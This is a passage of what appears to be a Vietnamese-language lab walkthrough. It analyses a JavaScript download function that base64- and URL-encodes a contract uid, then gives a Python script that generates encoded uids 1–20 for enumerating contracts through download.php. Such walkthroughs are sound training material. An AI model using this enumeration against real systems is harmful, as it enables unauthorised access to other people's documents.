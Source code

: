 ![](images/9.png)

Tại `/contracts.php` chúng  ta thấy một hàm javascript khả khi đó là `javascript:downloadContract('1')`

Kiểm tra mã nguồn của hàm này:

```js
<script>
    function downloadContract(uid) {
      window.location = `/download.php?contract=${encodeURIComponent(btoa(uid))}`;
    }
  </script>
```

Phân tích hàm này, nó sẽ encode uid sang base64 sau đó lại tiếp tục encode uid base64 sang url.
Khi đó để download tài liệu, ta cần vào url: http://IP:PORT/download.php?contract=encoded_uid

Đoạn mã này sẽ tạo file với uid được encode 2 bước.

```python
import base64, urllib.parse

# Create url_encoded (base64_encoded (uid)) 1-20 to a file
with open('/home/kali/Downloads/encoded_uid.txt', 'w') as f:
    for i in range(1,21):
        uid = str(i)
        b64_byte = base64.b64encode(uid.encode('utf-8'))
        b64_str = b64_byte.decode('ascii')
        url_uid = urllib.parse.quote(b64_str, safe='')
        f.write(f'{url_uid}\n')
```
